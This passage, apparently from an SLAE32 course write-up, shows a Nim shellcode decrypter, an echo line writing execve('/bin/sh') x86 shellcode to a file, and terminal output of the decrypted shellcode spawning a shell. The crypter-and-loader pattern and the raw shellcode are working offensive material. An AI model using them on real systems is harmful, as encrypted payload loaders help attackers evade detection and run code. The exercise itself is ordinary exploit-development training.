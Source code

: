 ```nim
    #   breakpoint on fwrite if you want to check the shellcode:
    #       gef> b *fwrite
    echo "[+] Running shellcode"
    run_shellcode()
```

To test this new piece of code, I've created a file named `shellcode.bin` containing the following shellcode (`execve` of `/bin/sh`): 

```bash
echo -ne "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80" > shellcode.bin
```

If you were to compile the program `decrypter.nim` for x86 systems, and execute it, it would spawn a `/bin/sh` shell, as shown below:

```bash
rbct@debian11:~/slae32/assignment/7$ ./decrypter --input=/tmp/encrypted.bin --output=/tmp/decrypted.bin --key='0123456789abcdef'

# [+] Input shellcode: /tmp/encrypted.bin
# [+] Using encryption key: 0123456789abcdef
# [+] Output file: /tmp/decrypted.bin
# [+] Decrypted bytes: @[49, 192, 80, 104, 110, 47, 115, 104, 104, 47, 47, 98, 105, 176, 11, 137, 227, 49, 201, 49, 210, 205, 128]
# [+] Writing decrypted shellcode to file: /tmp/decrypted.bin

rbct@debian11:~/slae32/assignment/7$ ./decrypter --input=/tmp/encrypted.bin --output=/tmp/decrypted.bin --key='0123456789abcdef' --execute

# [+] Input shellcode: /tmp/encrypted.bin
# [+] Using encryption key: 0123456789abcdef
# [+] Output file: /tmp/decrypted.bin
# [+] Decrypted bytes: @[49, 192, 80, 104, 110, 47, 115, 104, 104, 47, 47, 98, 105, 176, 11, 137, 227, 49, 201, 49, 210, 205, 128]
# [+] Writing decrypted shellcode to file: /tmp/decrypted.bin
# [+] Running shellcode
$ whoami
# rbct
$ id
# uid=1000(rbct) gid=1000(rbct) groups=1000(rbct),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),113(bluetooth),118(scanner)
$ exit
rbct@debian11:~/slae32/assignment/7$
```

As you can see, running the program on a `x86` system (i.e. a 32-bit architecture), the program managed to decrypt and run the shellcode.